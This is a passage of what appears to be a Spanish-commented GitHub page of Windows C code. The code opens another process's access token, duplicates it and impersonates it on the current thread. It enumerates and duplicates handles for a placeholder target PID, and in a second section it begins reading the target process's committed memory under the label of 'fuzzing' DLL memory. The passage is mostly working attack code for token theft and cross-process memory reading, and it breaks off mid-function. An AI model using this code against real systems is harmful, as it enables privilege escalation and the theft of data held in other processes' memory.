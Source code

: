 ```c
        return;
    }

    HANDLE hToken;
    if (OpenProcessToken(hProcess, TOKEN_QUERY | TOKEN_DUPLICATE, &hToken)) {
        printf("Token abierto: %p\n", hToken);

        HANDLE hDupToken;
        if (DuplicateToken(hToken, SecurityImpersonation, &hDupToken)) {
            printf("Token duplicado: %p\n", hDupToken);

            // Impersonar el token para realizar operaciones bajo ese contexto de seguridad
            if (SetThreadToken(NULL, hDupToken)) {
                printf("Se ha establecido el token para el hilo actual.\n");
            } else {
                printf("No se pudo establecer el token, error: %lu\n", GetLastError());
            }

            CloseHandle(hDupToken);
        } else {
            printf("No se pudo duplicar el token, error: %lu\n", GetLastError());
        }

        CloseHandle(hToken);
    } else {
        printf("No se pudo abrir el token, error: %lu\n", GetLastError());
    }

    CloseHandle(hProcess);
}

int main() {
    DWORD pid = 1234; // Reemplazar con el PID del proceso objetivo

    // Enumerar y duplicar handles, y fuzzear la memoria de la DLL
    EnumerateHandlesAndDuplicate(pid);

    // Extraer y manipular tokens
    ExtractAndImpersonateToken(pid);

    return 0;
}
```


## 2.2. Código C sin librerías para MSVC

```c 
#define WIN32_LEAN_AND_MEAN
#include <windows.h>
#include <stdio.h>

void FuzzDLLMemory(HANDLE hProcess, LPCVOID baseAddress) {
    MEMORY_BASIC_INFORMATION mbi;
    SIZE_T bytesRead;
    BYTE buffer[256];

    // Iterar sobre la memoria de la DLL
    while (VirtualQueryEx(hProcess, baseAddress, &mbi, sizeof(mbi)) == sizeof(mbi)) {
        if (mbi.State == MEM_COMMIT && (mbi.Protect & PAGE_READWRITE)) {
            // Leer la memoria en bloques
            if (ReadProcessMemory(hProcess, mbi.BaseAddress, buffer, sizeof(buffer), &bytesRead)) {
                printf("Leídos %zu bytes en la dirección: %p\n", bytesRead, mbi.BaseAddress);
```